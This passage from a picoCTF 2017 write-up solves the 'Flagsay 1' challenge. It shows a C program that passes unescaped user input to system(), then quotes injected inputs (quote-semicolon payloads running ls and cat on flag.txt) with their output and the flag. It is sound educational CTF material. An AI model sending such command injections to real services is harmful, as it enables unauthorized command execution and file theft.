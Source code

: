 

<h4 id="flagsay-1">Flagsay 1</h4>

<blockquote>
  <p>I heard you like flags, so now you can make your own! Exhilarating! Use <a href="https://webshell2017.picoctf.com/static/4f183bdbc5308596cb01d3855b186baf/flagsay-1">flagsay-1</a>! <a href="https://webshell2017.picoctf.com/static/4f183bdbc5308596cb01d3855b186baf/flagsay-1.c">Source</a>. Connect on shell2017.picoctf.com:51865.</p>
</blockquote>

<p>I’m up for flag making! The user input is echoed by the system</p>



<pre class="prettyprint"><code class="language-no-highlight">char commandBase[] = "/bin/echo \"%s\"\n";
...
snprintf(command,commandLen,commandBase,flag);
system(command)</code></pre>

<p>Input is not escaped so let’s use this vulnerability. We can use the quotation marks to make it seem like a string, but with the semicolon to execute our command. Normally, you use semicolons in bash programming to have multiple commands on a line. For instance, <code>ls . ; cd ..</code> would list your current directory and then change your directory to the parent. </p>



<pre class="prettyprint"><code class="language-no-highlight">nc shell2017.picoctf.com 51865                                                
" ; /bin/ls . "                                                               
               _                                                              
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                           
             //                                                               
/bin/ls: cannot access                     /                                  
            //                                   /                                                                            
.:                                                                            
flagsay-1                                                                     
flagsay-1_no_aslr                                                             
flag.txt                                                                      
xinetd_wrapper.sh                  </code></pre>

<p>Lets get into flag.txt!</p>



<pre class="prettyprint"><code class="language-no-highlight">nc shell2017.picoctf.com 51865                                               
" ; /bin/cat ./flag.txt "                                                     
               _                                                              
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                           
             //
2ab2050bf32e84975a10d774a919e1d0
/bin/cat:           /                                                         
            //                                   /                            
           //                                   /                             </code></pre>

<p>The flag is <strong>2ab2050bf32e84975a10d774a919e1d0</strong>.</p>



<h4 id="vr-gear-console">VR Gear Console</h4>
